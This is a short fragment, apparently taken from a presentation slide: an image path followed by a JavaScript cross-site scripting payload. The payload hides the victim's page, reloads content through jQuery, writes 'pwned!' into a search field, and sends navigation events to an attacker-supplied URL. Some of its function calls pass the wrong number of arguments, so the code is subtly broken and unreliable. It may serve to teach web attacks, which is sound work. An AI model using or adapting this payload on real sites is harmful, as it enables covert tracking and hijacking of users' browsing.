

function payload(attacker) {
    function log(data) {
        console.log($.param(data));
        $.get(attacker, data);
    }
    function proxy(href) {
        $("html").load(href, function(){
            $("html").show();
            log(attacker, {event: "nav", uri: href});
            $("#query").val("pwned!");
        });
    }
    $("html").hide();
    proxy(attacker, "./");
}